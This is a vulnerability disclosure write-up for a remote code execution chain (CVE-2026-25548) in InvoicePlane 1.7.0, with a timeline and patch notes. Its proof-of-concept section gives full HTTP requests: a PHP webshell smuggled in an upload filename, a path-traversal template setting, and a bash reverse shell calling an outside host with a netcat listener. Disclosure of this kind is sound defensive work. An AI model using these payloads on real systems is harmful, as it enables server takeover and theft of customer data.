






# CVE-2026-25548 — Remote Code Execution in InvoicePlane 1.7.0

**Vulnerability:** Remote Code Execution via Local File Inclusion + Log Poisoning

**Product:** [InvoicePlane](https://invoiceplane.com)

**Affected Version:** 1.7.0 (and likely prior versions)

**Severity:** Critical

**CVSS 3.1 Score:** 9.1 (`CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H`)

**CWE:** CWE-98, CWE-117, CWE-94

**Discovered by:** Leonidas Agathos

**Report Date:** 2026-01-31

---

## Table of Contents

- [Description](#description)
- [Vulnerability Details](#vulnerability-details)
  - [1. Local File Inclusion (LFI)](#1-local-file-inclusion-lfi)
  - [2. Log Poisoning via Upload Filename](#2-log-poisoning-via-upload-filename)
- [Attack Chain](#attack-chain)
- [Proof of Concept](#proof-of-concept)
  - [Step 1 — Log Poisoning](#step-1--log-poisoning)
  - [Step 2 — Configure LFI](#step-2--configure-lfi)
  - [Step 3 — Trigger RCE](#step-3--trigger-rce)
  - [Step 4 — Reverse Shell](#step-4--reverse-shell)
- [Impact](#impact)
- [Affected Components](#affected-components)
- [Timeline](#timeline)

---

## Description

A critical vulnerability chain in InvoicePlane 1.7.0 allows an authenticated administrator to achieve **Remote Code Execution (RCE)** on the underlying server. The attack combines two weaknesses:

1. **Local File Inclusion (LFI)** — The public invoice template setting accepts arbitrary file paths with no validation, allowing inclusion of files outside the intended template directory.
2. **Log Poisoning** — Upload filenames containing path traversal characters are written verbatim to CodeIgniter's `.php` log files, allowing injection of arbitrary PHP code.

When chained, an attacker with admin access can achieve full server compromise as the web server user. The final RCE trigger is **unauthenticated** (public invoice URL).

---

## Vulnerability Details

### 1. Local File Inclusion (LFI)

| Attribute | Value |
|-----------|-------|
| **File** | `application/modules/guest/controllers/View.php` |
| **Lines** | 85, 191 |
| **Parameter** | `public_invoice_template` (database setting) |
| **CWE** | CWE-98: Improper Control of Filename for Include/Require Statement |

**Vulnerable code (`View.php:85`):**

```php
$this->load->view('invoice_templates/public/' .
    get_setting('public_invoice_template') . '.php', $data);
```

**Vulnerable code (`View.php:191`):**

```php
$this->load->view('quote_templates/public/' .
    get_setting('public_quote_template') . '.php', $data);
```

The `public_invoice_template` and `public_quote_template` settings are retrieved from the database and concatenated directly into a file path passed to CodeIgniter's `load->view()` (which resolves to PHP's `include()`). There is **no validation** to:
- Prevent directory traversal sequences (`../`)
- Whitelist allowed template names
- Confirm the file exists within the expected template directory

An administrator can set this value to any path on the filesystem, constrained only by the `.php` extension being appended automatically.

---

### 2. Log Poisoning via Upload Filename

| Attribute | Value |
|-----------|-------|
| **File** | `application/modules/upload/controllers/Upload.php` |
| **Lines** | 178–184 |
| **Parameter** | Upload filename (HTTP multipart form data) |
| **CWE** | CWE-117: Improper Output Neutralization for Logs |

**Vulnerable code (`Upload.php:178-184`):**

```php
private function sanitize_file_name(string $filename): string
{
    if (str_contains($filename, '..')
        || str_contains($filename, '/')
        || str_contains($filename, '\\')
        || str_contains($filename, "\0")) {
        log_message('error', 'Path traversal attempt detected in filename: ' . $filename);
        return '';
    }
    // ...
}
```

When a filename triggers the path traversal check, the **raw, unsanitized filename** is written directly into the log file. CodeIgniter log files:
- Use `.php` extension: `application/logs/log-YYYY-MM-DD.php`
- Begin with `<?php defined('BASEPATH') OR exit('No direct script access allowed'); ?>`
- Are therefore **valid PHP files** that execute when included

An attacker embedding `<?php system($_GET[1]); ?>` in the filename causes that payload to be written into the log and later executed via the LFI.

---

## Attack Chain

```
[Authenticated user]  →  Upload malicious filename  →  PHP injected into log file
[Admin]               →  Set template setting        →  LFI points to log file
[Anyone]              →  Visit public invoice URL    →  RCE
```

| Step | Requirement |
|------|-------------|
| Log Poisoning | Authenticated user with upload access |
| LFI configuration | Administrator account |
| RCE trigger | Unauthenticated (public invoice URL) |

---

## Proof of Concept

### Step 1 — Log Poisoning

Send a file upload request with a PHP webshell embedded in the filename. The path traversal check will trigger and write the raw filename (including the PHP payload) to the log file.

**Request (via Burp Suite):**

```http
POST /index.php/upload/upload_file/3/13phvCzZiPyOXKYeJBk084jHL5NTGn9d HTTP/1.1
Host: 172.25.0.12
Cookie: ip_csrf_cookie=...; ip_session=...
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="_ip_csrf"

<csrf_token>
------Boundary
Content-Disposition: form-data; name="file"; filename="..<?php system($_GET[1]); ?>.jpg"
Content-Type: image/jpeg

test
------Boundary--
```

The server rejects the upload (`upload_error_invalid_extension`) but the log entry is already written:

**Result in `application/logs/log-2026-01-31.php`:**

```
ERROR - 2026-01-31 10:35:06 --> Path traversal attempt detected in filename: ..<?php system($_GET[1]); ?>.jpg
```

> Navigate to an invoice's **Attachments** section and click **Add Files** to reach the upload endpoint.







---

### Step 2 — Configure LFI

As an administrator, set the `public_invoice_template` setting to point to today's log file using a path traversal payload. CodeIgniter's view loader appends `.php` automatically.

**Request (via Burp Suite):**

```http
POST /index.php/settings HTTP/1.1
Host: 172.25.0.12
Cookie: ip_csrf_cookie=...; ip_session=<admin_session>
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="settings[public_invoice_template]"

../../../logs/log-2026-01-31
------Boundary--
```

The traversal path resolves from `application/views/invoice_templates/public/` up to `application/logs/`, then includes `log-2026-01-31.php`.



---

### Step 3 — Trigger RCE

Access any public invoice URL with a command passed as the `1` GET parameter. No authentication is required.

**Request:**

```
GET /index.php/guest/view/invoice/<invoice_url_key>?1=id HTTP/1.1
Host: 172.25.0.12
```

**Response (in page source):**

```
Path traversal attempt detected in filename: ..uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
.jpg
```

The `system($_GET[1])` payload executes the `id` command and its output is reflected inline in the page.



---

### Step 4 — Reverse Shell

Replace the command with a bash reverse shell payload to obtain an interactive shell:

```
GET /index.php/guest/view/invoice/<invoice_url_key>?1=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.25.131/4444+0>%261' HTTP/1.1
```

On the attacker machine:

```bash
nc -lnvp 4444
```

**Result:**

```
connect to [192.168.25.131] from (UNKNOWN) [172.25.0.11] 43360
www-data@0dd592f7a424:~/projects/invoiceplane$
```

Full interactive shell as `www-data`.



---

## Impact

| Dimension | Rating | Detail |
|-----------|--------|--------|
| Confidentiality | **HIGH** | Full read access to all files accessible by the web server user, including database credentials and customer invoice data |
| Integrity | **HIGH** | Arbitrary file write, database modification, web shell installation |
| Availability | **HIGH** | Denial of service, ransomware deployment, system destruction |

---

## Affected Components

| File | Vulnerability |
|------|---------------|
| `application/modules/guest/controllers/View.php:85` | LFI — Invoice template |
| `application/modules/guest/controllers/View.php:191` | LFI — Quote template |
| `application/modules/upload/controllers/Upload.php:182` | Log Poisoning |
| `application/modules/settings/controllers/Settings.php` | No validation on template setting |

---

## Timeline

| Date | Event |
|------|-------|
| 2026-01-30 | Vulnerability discovered |
| 2026-01-31 | Proof of concept developed |
| 2026-01-31 | Vendor notified |
| 2026-02-03 | Vendor acknowledgment |
| 2026-02-03 | Patch released |
| 2026-02-04 | Public disclosure |

---

## References

- [CWE-98: Improper Control of Filename for Include/Require Statement](https://cwe.mitre.org/data/definitions/98.html)
- [CWE-117: Improper Output Neutralization for Logs](https://cwe.mitre.org/data/definitions/117.html)
- [CWE-94: Improper Control of Generation of Code](https://cwe.mitre.org/data/definitions/94.html)
- [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [OWASP: Log Injection](https://owasp.org/www-community/attacks/Log_Injection)
- [CVE-2026-25548](https://nvd.nist.gov/vuln/detail/CVE-2026-25548)

---

## Disclaimer

This vulnerability was discovered during independent security research. All information is provided strictly for educational, research, and defensive purposes to assist the vendor and the security community in understanding and remediating the issue. Any malicious use of this information is strictly prohibited.
